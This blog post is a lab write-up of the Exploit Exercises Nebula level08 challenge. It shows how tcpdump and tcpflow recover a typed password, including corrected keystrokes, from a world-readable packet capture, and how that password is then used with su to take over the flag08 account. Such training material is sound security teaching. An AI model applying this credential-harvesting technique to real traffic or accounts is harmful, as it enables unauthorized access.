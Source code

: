 ```yaml
---
title: "Exploit Exercises Nebula Level08"
date: "2016-02-15"
slug: "exploit-exercises-nebula-level08"
Categories:
- Exploit Exercises
---
```


"World readable files strike again. Check what that user was up to, and use it to log into flag08 account."

This was the verbiage provided in the *About* section for [level08].

<!--more-->

The first step I took was to check the home directory for flag08.

        level08@nebula:/home/flag08$ ls -l
        total 9
        -rw-r--r-- 1 root root 8302 2011-11-20 21:22 capture.pcap


It contained a world readable capture file, let's see what the "the user was up to." I ran the capture file through *tcpdump* to search for any credentials:

        level08@nebula:/home/flag08$ tcpdump -nnAr capture.pcap | grep -i pass
        reading from file capture.pcap, link-type EN10MB (Ethernet)
        **Password: **

It appears that password is mentioned in the output. I could move capture.pcap off the system and run it through *wireshark* to follow the TCP stream, but decided to stick to the command-line.

I used the tool *tcpflow* to follow the users activity:

        level08@nebula:/home/flag08$ tcpflow -C -r capture.pcap
        ..%
        ..%
        ..&..... ..#..'..$
        ..&..... ..#..'..$
        .. .....#.....'.........
        .. .38400,38400....#.SodaCan:0....'..DISPLAY.SodaCan:0......xterm..
        ........"........!
        ........"..".....b........b.....B.
        ..............................1.......!
        .."....
        .."....
        ..!..........."
        ........"
        .."................
        .....................

        Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

        ..wwwbugs login:
        l
        .l
        e
        .e
        v
        .v
        e
        .e
        l
        .l
        8
        .8

        .
        .
        Password:
        b
        a
        c
        k
        d
        o
        o
        r
        .
        .
        .
        0
        0
        R
        m
        8
        .
        a
        t
        e

        .

        .
        .
        Login incorrect
        wwwbugs login:

The capture caught the user attempting to login to wwwbugs. The login was incorrect, but may have been mistyped.

The output contains a few deletions, which confirms that the user had forgotten some details like "m8" vs. "mate." Let's try to login using "backd00Rmate":

        level08@nebula:/home/flag08$ su flag08
        Password:
        sh-4.2$ id
        uid=991(flag08) gid=991(flag08) groups=991(flag08)
        sh-4.2$ getflag
        You have successfully executed getflag on a target account

Looks like the password I chose was correct. The tricky part of this challenge was finding the "login incorrect" statement, which steered me away from using other combinations of  "backdoor...00Rm8.ate"

[Mike][]

[Level08]: https://exploit-exercises.com/nebula/level08/ "Level08"
[Mike]: /contact "Contact Mike"
